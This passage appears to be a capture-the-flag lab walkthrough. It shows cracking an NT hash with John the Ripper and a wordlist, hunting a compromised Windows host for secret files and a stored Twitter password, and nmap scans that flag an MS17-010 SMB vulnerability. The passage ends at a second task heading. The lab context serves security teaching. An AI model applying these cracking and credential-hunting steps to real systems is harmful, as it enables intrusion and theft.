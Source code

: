   The third field contains the 'aad3b' string, so we use `--format=NT`. 
  ```
  echo "69596c7aa1e8daee17f8e78870e25a5c" > hash.txt
  john --format=NT --wordlist=<rockyou.txt> hash.txt
  ```
  > Trustno1
- Where is the "secrets.txt"  file located? (Full path of the file)

  For some reason, `search -f secrets.txt` was taking super long, so I went another route.
  ```
  shell
  cd ../..
  dir /b/s secrets.txt
  ```
  > C:\Program Files (x86)\Windows Multimedia Platform\secrets.txt
- What is the Twitter password revealed in the "secrets.txt" file?
  ```
  cat C:\Program Files (x86)\Windows Multimedia Platform\secrets.txt
  ```
  > KDSvbsw3849!
- Where is the "realsecret.txt" file located? (Full path of the file)
  ```
  search -f realsecret.txt
  ```
  > c:\inetpub\wwwroot\realsecret.txt
- What is the real secret?
  > The Flash is the fastest man alive

# Blue
### Task 1
- Scan the machine. (If you are unsure how to tackle this, I recommend checking out the Nmap room)
  ```
  nmap -sC -sV -A <target_ip>

  Output: -----------------------------------------------------------
  135/tcp   open  msrpc         Microsoft Windows RPC
  139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
  445/tcp   open  microsoft-ds  Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
  ```
- How many ports are open with a port number under 1000?
  > 3
- What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)
  ```
  nmap --script=vuln -sV -A <target_ip>

  Output: -------------------------------------------------
  | smb-vuln-ms17-010: 
  |   VULNERABLE:
  |   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
  |     State: VULNERABLE
  |     IDs:  CVE:CVE-2017-0143
  |     Risk factor: HIGH
  |       A critical remote code execution vulnerability exists in Microsoft SMBv1
  |        servers (ms17-010).
  |           
  |     Disclosure date: 2017-03-14
  |     References:
  |       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
  |       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
  |_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
  ```
  > ms17-010
### Task 2